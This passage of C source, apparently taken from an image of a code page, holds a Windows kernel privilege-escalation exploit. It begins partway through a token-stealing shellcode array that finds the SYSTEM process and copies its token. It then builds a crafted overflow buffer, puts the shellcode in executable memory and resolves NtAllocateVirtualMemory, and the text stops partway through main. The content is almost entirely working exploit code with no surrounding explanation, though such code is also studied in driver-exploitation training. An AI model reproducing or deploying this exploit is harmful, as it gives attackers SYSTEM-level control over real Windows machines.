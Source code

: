 ```c

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
	//"\xC2\x10\x00"                  // ret 16
};

int main()
{
	char buf[504] = { 0 };
	memset(buf, 'A', sizeof(buf));

	char *payload = (char *) malloc(sizeof(buf) + 40);
	memcpy(payload, buf, sizeof(buf));
	char *temp = payload + 504;
	*(PULONG)temp = (ULONG)0x04080040;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0xee657645;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000040;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000001;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000001;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00080000;
	
	// begin exp

	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	HMODULE hmodule = LoadLibraryA("ntdll.dll");

	NtAllocateVirtualMemory_t NtAllocateVirtualMemory = (NtAllocateVirtualMemory_t) GetProcAddress(hmodule, "NtAllocateVirtualMemory");

	if (NtAllocateVirtualMemory == NULL) {
		printf("getprocaddress failed\n");
		return 0;
	}

```